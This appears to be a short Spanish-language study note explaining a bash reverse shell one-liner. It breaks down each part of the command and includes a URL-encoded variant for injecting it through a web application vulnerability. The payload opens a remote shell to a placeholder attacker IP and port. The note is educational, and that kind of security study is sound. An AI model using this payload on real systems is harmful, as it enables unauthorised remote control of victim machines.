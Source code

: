 
---

### Comando para Entablar una Reverse Shell

El siguiente comando se utiliza para crear una **reverse shell** desde una máquina víctima hacia una máquina atacante. Esto es útil cuando tienes acceso a ejecutar comandos en la máquina víctima, por ejemplo, a través de una vulnerabilidad en una aplicación web.

El comando es el siguiente:

```bash
bash -c "bash -i >& /dev/tcp/[ip_atacante]/[puerto] 0>&1"
```

Sin embargo, si estás inyectando este comando en una URL, el carácter `&` es reservado y debe ser reemplazado por `%26`. El comando modificado para uso en una URL sería:

```bash
bash -c "bash -i >%26 /dev/tcp/[ip_atacante]/[puerto] 0>%261"
```

---

### Explicación Detallada del Comando

Vamos a desglosar el comando paso a paso para entender qué hace cada parte:

1. **`bash -c`**:
   - Este comando le dice a la shell (intérprete de comandos) que ejecute el siguiente string como un comando.
   - Es útil cuando quieres ejecutar un comando complejo o una cadena de comandos desde una sola línea.

2. **`bash -i`**:
   - Aquí se inicia una nueva instancia de `bash` en modo **interactivo** (`-i`).
   - El modo interactivo permite que la shell acepte entradas del usuario y muestre salidas, lo cual es esencial para una reverse shell.

3. **`>& /dev/tcp/[ip_atacante]/[puerto]`**:
   - Esta parte redirige la salida estándar (`stdout`) y la salida de error (`stderr`) de la shell a una conexión TCP.
   - `/dev/tcp/[ip_atacante]/[puerto]` es una característica de Bash que permite abrir una conexión TCP hacia la dirección IP y puerto especificados.
     - `[ip_atacante]`: Debes reemplazar esto con la dirección IP de la máquina atacante.
     - `[puerto]`: Debes reemplazar esto con el puerto en el que la máquina atacante está escuchando.
   - En resumen, esta parte envía la salida de la shell (lo que se escribe en la terminal) a través de la red hacia el atacante.

4. **`0>&1`**:
   - Esto lo que hace es redirigir la entrada estándar (`stdin`) de la shell hacia la misma conexión TCP.
   - En otras palabras, cualquier dato que el atacante envíe a través de la conexión TCP será tratado como entrada para la shell en la máquina víctima.
   - Esto permite que el atacante interactúe con la shell remota como si estuviera directamente en la máquina víctima.

> Recordar que 
- 0 es `stdin`
- 1 es `stdout` 
- 2 es `stderr`.

---

[[unix]]
[[stder_stdout]]
[[Reverse Shell]]